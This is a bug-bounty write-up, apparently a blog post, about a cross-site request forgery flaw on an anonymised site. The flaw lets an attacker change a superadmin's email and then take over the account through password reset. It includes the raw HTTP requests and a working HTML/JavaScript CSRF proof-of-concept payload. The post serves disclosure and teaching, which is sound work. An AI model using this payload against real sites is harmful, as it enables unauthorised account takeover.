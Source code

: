 ```yaml
---
layout: post
title: Compromise complete application with CSRF attack
---
```


I was looking for responsible disclosure programs and came across a program, let's call it example.com

I started enumeration, the website is basically used to create applications which will be deployed as a subdomain on the website domain, like if I created an application test then URL to the application will be https://test.example.com

I created an application that has URL https://test.example.com/, the first thing that I noticed is there was no Email verification

During enumeration, I came across the Profile update page from where the user’s name can be changed but Email field was disabled on the frontend

When I intercepted the request the email parameter was there and from that, the email can be successfully updated but it is very low impact vulnerability so I keep looking on the website

On the same request, I found that there was no CSRF token, before creating a CSRF POC and testing, I started minimizing the request parameters, The request had Content-Type: multipart/form-data, and had JSON data

## Initial Request
```
POST /server/api/users/1 HTTP/1.1
Host: test.example.com
Connection: close
Content-Length: 2298
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY0xsvHS604Lx0QVR
Origin: https://test.example.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://test.example.com/client/app/build/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: --COOKIES HERE--

------WebKitFormBoundaryY0xsvHS604Lx0QVR
Content-Disposition: form-data; name="model"

{"id":"1","client_id":null,"user_type":"superadmin","company_name":null,"first_name":"Test1","last_name":"test","address_1":null,"address_2":null,"city":null,"state":null,"zip":null,"phone":null,"email":"test@test.com","cluster_id":null,"external_user_id":null,"additional_details_1":null,"additional_details_2":null,"additional_details_3":null,"enable_io_tool_module":false,"enable_lead_management_module":false,"lead_notification_frequency":"real_time","has_light_logo":false,"has_dark_logo":false,"default_home_page":null,"io_tool_notification_frequency":null,"country":null,"timezone":null,"status":"active","hipaa_acknowledgement_timestamp":null,"creation_time":1590667071,"report_language":null,"last_login_timestamp":1590667155,"show_welcome_modal":true,"show_services_overview":"default","show_categories_overview":"default","role_id":null,"io_tool_role_id":null,"client_group_id":null,"reporting_profile_id":"1","client_name":null,"client_reporting_status":null,"cluster_name":null,"override_dashboard_page_ids":null,"role_name":null,"client_group_name":null,"reporting_profile_name":"Default Profile","user_image_id":"7163","user_image_metadata":{"asset_id":"9c356861ae9896fe449102b0ba4ec207","public_id":"test/lwlwwyjdvzpmwwnqnr4g","version":1590667197,"version_id":"bb39724d650bd6495eb44b8d845b989f","signature":"04db16438eb5c620e22aa692d0f946e2cf2d07cf","width":64,"height":64,"format":"png","resource_type":"image","created_at":"2020-05-28T11:59:57Z","tags":[],"bytes":341,"type":"upload","etag":"d6b69986122a6445c9614dcbe5ea83b1","placeholder":false,"url":"http://res.cloudinary.com/tapclicks/image/upload/v1590667197/test/lwlwwyjdvzpmwwnqnr4g.png","secure_url":"https://res.cloudinary.com/tapclicks/image/upload/v1590667197/test/lwlwwyjdvzpmwwnqnr4g.png"},"user_type_display":"Super Admin","display_name":"Test test","lead_notification_frequency_display":"Real Time","status_display":"Active","timegroup":"hourly","formatted_creation_time":"May 28, 2020 11:57 AM","formatted_last_login_timestamp":"May 28, 2020 11:59 AM","can_be_edited":true,"can_be_deleted":false,"can_be_copied":false,"can_be_deleted_tooltip":null,"user_id":"1"}
------WebKitFormBoundaryY0xsvHS604Lx0QVR--
```

## Minimized Request
```
POST /server/api/users/1 HTTP/1.1
Host: test.example.com
Connection: close
Content-Length: 281
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY0xsvHS604Lx0QVR
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: --COOKIES HERE--

------WebKitFormBoundaryY0xsvHS604Lx0QVR
Content-Disposition: form-data; name="model"

{"id":"1","user_type":"superadmin","first_name":"Test1","last_name":"test","email":"test4@test.com","status":"active","reporting_profile_id":"1"}
------WebKitFormBoundaryY0xsvHS604Lx0QVR--
```

Then I created a POC code for exploiting thing with [XHR](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest)

## CSRF POC
```html
<script>
   function submitRequest()
   {
     var xhr = new XMLHttpRequest();
     xhr.open("POST", "https://test.example.com/server/api/users/1", true);
     xhr.setRequestHeader("Accept", "application/json, text/plain, */*");
     xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9,hi;q=0.8");
     xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=----WebKitFormBoundaryY0xsvHS604Lx0QVR");
     xhr.withCredentials = true;
     var body = "------WebKitFormBoundaryY0xsvHS604Lx0QVR\r\n" + 
       'Content-Disposition: form-data; name="model"\r\n\r\n'+
       '{"id":"1","user_type":"superadmin","first_name":"Test1","last_name":"test","email":"testing123@test.com","status":"active","reporting_profile_id":"1"}\r\n'+
       "------WebKitFormBoundaryY0xsvHS604Lx0QVR--\r\n";
     var aBody = new Uint8Array(body.length);
     for (var i = 0; i < aBody.length; i++)
       aBody[i] = body.charCodeAt(i); 
     xhr.send(new Blob([aBody]));
   }
</script>
<form action="#">
   <input type="button" value="Submit request" onclick="submitRequest();" />
</form>
```

Opened this CSRF POC in the same browser where the user is logged in, and click on Submit and the user email will be updated to testing123@test.com

After that, the password can be changed with the Forgot Password function and as the POC is for superadmin the complete application can be compromised

## List of Vulnerability helped in Exploitation

* No email verification

* Improper Validation on Server site — Email Update

* No Cross-Site Requests Forgery Protection — Anti CSRF token missing
